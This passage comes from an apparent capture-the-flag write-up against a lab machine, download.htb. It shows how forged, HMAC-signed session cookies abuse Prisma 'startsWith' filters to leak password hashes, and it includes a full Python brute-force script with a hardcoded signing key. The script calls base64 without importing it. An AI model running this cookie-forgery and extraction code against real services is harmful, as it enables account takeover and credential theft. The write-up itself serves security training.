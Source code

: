 ![image-20231107152812106](/img/image-20231107152812106.png)

That means the correct column name is password, and its showing all the documents with a user that has any password!

#### Brute Force Password

The [Prisma documentation](https://www.prisma.io/docs/concepts/components/prisma-client/filtering-and-sorting) shows examples that use things like `{"password": {startsWith: "a"}}`. If that works here, I can use that to brute force the password character by character. I found for it to work, I had to put `startsWith` in double quotes, but it does work. For example, `{"user":{"password":{"startsWith": "1"}}}` returns documents from both Tabific and AyufmApogee:

![image-20231107153428075](/img/image-20231107153428075.png)

With this together, I can brute force passwords for users with this script:

```

import hashlib
import hmac
import requests
import sys

KEY = b"8929874489719802418902487651347865819634518936754"
HEX_CHARS = '0123456789abcdef'

def make_cookies(user_id, password):
    pt_cookie = f'{{"user": {{"id": {user_id}, "password": {{"startsWith": "{password}"}}}}}}'
    enc_cookie = base64.b64encode(pt_cookie.encode()).decode()
    full_cookie_b = f'download_session={enc_cookie}'
    digest = hmac.new(KEY, full_cookie_b.encode(), hashlib.sha1).digest()
    sig = base64.urlsafe_b64encode(digest).decode().rstrip("=")

    return {"download_session": enc_cookie, "download_session.sig": sig}

if len(sys.argv) == 1:
    user_id = 1
else:
    user_id = int(sys.argv[1])

password = ""
while True:
    done = True
    for c in HEX_CHARS:
        cookies = make_cookies(user_id, password + c)
        print(f"\r{password}{c}", end="")
        resp = requests.get('http://download.htb/home/', cookies=cookies)
        if "No files found" not in resp.text:
            password += c
            done = False
            break
    if done:
        print(f"\r{password}   ")
        break

```

